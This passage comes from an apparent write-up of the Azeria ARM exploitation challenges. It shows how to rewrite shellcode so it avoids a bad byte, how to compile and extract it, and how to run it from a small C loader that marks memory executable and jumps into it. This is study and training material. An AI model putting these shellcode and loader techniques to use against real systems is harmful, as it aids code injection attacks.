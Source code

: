 {% marginnote
'Bypassing the filters can be incredible complex. Here is article about
[Alphanumeric RISC ARM Shellcode](https://web.archive.org/web/2020*/http://www.phrack.org/issues/66/12.html).
' %}

`beq` has a 0x0a as the first byte so we have to rewrite the snippet
to:

```nasm
    cmp r0, #0
    bne Lparent_or_error
    b Lchild
```


## Compilation

We compile the assembly into an object file with `gcc` (in a Raspbian)
and then we extract the `.text` section:

```shell
pi@raspberrypi:~$ gcc -c -o egg.o egg.s
pi@raspberrypi:~$ objcopy -O binary --only-section=.text egg.o egg.text
```

The assembly can be found [here](/book-of-gehn/assets/azeria-arm-challenges-assets/egg.s).

## Testing

It is always a good idea to test the shellcode *separately* from the
exploitation.

For this [we can create a small C program](/book-of-gehn/assets/azeria-arm-challenges-assets/test-egg.c)
to load the *egg* from a file
into a buffer with *permission for execution* and then jump into it:

```cpp
    char *buf;

    posix_memalign(&buf, ALIGN, fsize);
    fread(buf, 1, fsize, f);
    mprotect(buf, fsize, PROT_READ|PROT_WRITE|PROT_EXEC);

    ((void(*)())buf)();
```

This is an example:

```shell
pi@raspberrypi:~$ ./test-egg egg.text
Egg loaded at 0x24000-0x2409
```

{% marginnote
'The `good` and `bad` labels were put by me. Sorry, `strace` is not so smart.
'%}
